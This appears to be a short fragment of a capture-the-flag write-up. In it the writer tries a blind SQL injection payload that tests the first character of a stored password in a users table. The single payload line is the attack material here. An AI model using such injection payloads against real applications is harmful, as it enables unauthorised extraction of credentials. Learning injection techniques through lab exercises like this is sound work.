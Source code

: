 Knowing the typical structure of the flags, I decide to try to see if the query 
```
' OR SUBSTR((SELECT password FROM users LIMIT 1),1,1) = 'p' --
```
works for "p".
